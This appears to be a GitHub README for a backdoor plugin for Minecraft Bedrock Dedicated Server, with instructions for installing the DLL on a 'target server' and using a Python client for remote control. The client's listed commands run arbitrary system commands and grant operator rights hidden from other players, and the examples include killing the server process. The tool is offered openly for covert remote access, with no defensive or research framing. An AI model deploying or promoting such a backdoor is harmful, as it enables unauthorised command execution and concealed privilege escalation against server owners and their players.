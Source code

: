# backdoor

A backdoor plugin for Bedrock Dedicated Server

## Usage
1. install ``backdoor.dll`` to the target server
2. Use the backdoor client ``client.py`` for remote control after the target server is opened.

## Run the backdoor client
After installing Python, run the program from the command line with the following command:

```
python client.py
```

Enter the server IP and port
When you start the program, you will be prompted to enter the IP address and port number of the server in the format IP address port number (e.g. 127.0.0.1 19132)

Example:

```
Please input server ip:port like 127.0.0.1 19132
114.51.41.91 9810
```

Client Functions
The client program has the following functions:

``scmd [cmd]`` - executes system commands
``gcmd [cmd]`` - executes game commands
``perm [player name: case sensitive] [level: 0~3] [0: client hide change | 1: client show change]`` - set player permission level
``q`` - Quit the program

Please enter the appropriate command to perform the appropriate action as needed. For example, to execute the game command ``kick WillowSauceR``, enter the following command:

```
>>> kick WillowSauceR
```

Execute the system command ``taskkill /F /IM bedrock_server.exe``
```
>>> scmd taskkill /F /IM bedrock_server.exe
```

Set permissions for players in the game
Permission level: 0 for normal players, greater than 0 for OP
Show/hide: hide permission changes from other players and yourself, not discoverable within the game
The following command sets OP permissions for player ``WillowSauceR`` and hides it from other players
```
>>> perm WillowSauceR 1 0
```

To exit the program, enter the following command:

```
>>> q
```
